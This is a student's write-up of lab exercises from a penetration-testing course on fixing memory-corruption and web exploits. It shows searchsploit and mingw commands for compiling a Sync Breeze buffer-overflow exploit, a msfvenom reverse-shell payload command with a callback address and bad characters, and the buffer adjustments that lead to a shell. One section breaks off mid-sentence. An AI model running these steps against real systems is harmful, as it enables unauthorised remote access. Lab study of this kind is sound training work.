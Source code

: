 # 15.1.4 Cross-Compiling Exploit Code
**1.  Locate the exploit discussed in this section using the searchsploit tool in Kali Linux.**

We simply need to run the following command in order to find our exploit:
`searchsploit "Sync Breeze Enterprise 10.0.28"`

We can then copy the exploit to our working directory by using the -m command:
`searchsploit -m 42341`

**2.  Install the mingw-w64 suite in Kali Linux and compile the exploit code.**

In order to install mingw-w64 we need to run the following command:
`sudo apt install mingw-w64`

Upon viewing the code we see a few headers are included
```#include <inttypes.h>
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>
```

Doing a bit of research on winsock informs us that adding the lws2_32 flag should allow us to compile the program on our Kali machine. The following command will compile the code:
`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`

# 15.1.6 Changing the Socket Information
**1.  Modify the connection information in the exploit in order to target the SyncBreeze installation on your Windows client.**

In order to fix the exploit we simply need to open it in our text editor and modify the IP and port variables which are hard coded.
![[Pasted image 20220717201002.png]]

**2.  Recompile the exploit and use Wireshark to confirm that the code successfully initiates a socket connection to your dedicated Windows client.**

Once we modify the code we must recompile it before running the program. After the recompilation we can run the exe using wine. After executing the exe with wine we see the connection being made via Wireshark.
![[Pasted image 20220717232100.png]]
![[Pasted image 20220717232205.png]]

# 15.1.8 Changing the Return Address
**1.  Find any valid return address instruction and alter the one present in the original exploit.**

We can reuse our initial return address instruction we found in the previous exercise. All we need to do is replace the retn variable with our new instruction.
![[Pasted image 20220717233209.png]]


# 15.1.10 Changing the Payload
**1.  Generate a reverse shell payload using msfvenom while taking into account the bad characters of our exploit.**

To generate a new payload we can run the following MSFVenom command:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`

**2.  Replace the original payload with the newly generated one.**

We can now insert this payload into our exploit.
![[Pasted image 20220717233734.png]]

**3.  Attach the debugger to the target process and set a breakpoint at the return address instruction.**

We can now start the service, attach the debugger, and set a breakpoint (F2) at our return instruction.
![[Pasted image 20220717233911.png]]
![[Pasted image 20220717233936.png]]

**4.  Compile the exploit and run it. Did you hit the breakpoint?**

We compile the exploit with the following command:
`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`

Running the command with wine
`wine syncbreeze_exploit.exe `

Unfortunately, we do not hit our breakpoint and instead the program crashes at 0x9010090c
![[Pasted image 20220717234314.png]]

# 15.1.12 Changing the Overflow Buffer
**1.  Fix the overflow buffer such that the EIP register will be overwritten by your chosen return address instruction.**
Because the exploit is setting the last byte of our buffer to a null byte we must increase our buffer size by 1. We can do this by simply adjusting the "initial_buffer_size" variable from 780 to 781. Recompiling and running this changed exploit we can see we hit our breakpoint.
![[Pasted image 20220717235304.png]]

And letting the program finish running we can see we get our reverse shell.
![[Pasted image 20220717235336.png]]


**2.  Install the _ASX to MP3 Converter_ application located under the C:\Tools\fixing_exploits directory; download the exploit for _ASX to MP3 Converter_ from EDB[1](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/fixing-exploits/fixing-memory-corruption-exploits/practice-changing-the-overflow-buffer#fn1) and edit it in order to get a shell on your dedicated Windows machine.**

We can start by opening up this 


# 15.2.4 Changing Connectivity Information
**1.  Connect to your dedicated Linux lab client and start the apache2 service; the target web application is located under /var/www/https/.**
**2.  Modify the original exploit and set the _base_url_ variable to the correct IP address of your dedicated Linux lab client as well as the protocol to HTTPS.**
**3.  Get familiar with the _requests_ Python library and adjust your exploit accordingly to avoid SSL verification.**
**4.  Edit the _username_ and _password_ variables to match the ones from our test case (username "admin", password "HUYfaw763").**
**5.  Try to run the exploit against the Linux lab client, does it work? If not, try to explain why.**


# 15.2.6 Troubleshooting the "index out of range" Error
**1.  Observe the error that is generated when running the exploit.**
**2.  Attempt to troubleshoot the code and determine why the error occurs.**
**3.  Modify the exploit in order to avoid the error and run it against your dedicated Linux client.**
**4.  Verify that your exploit worked by attempting to execute the _whoami_ command using the remote php shell.**
**5.  Attempt to obtain a fully interactive shell with this exploit.**
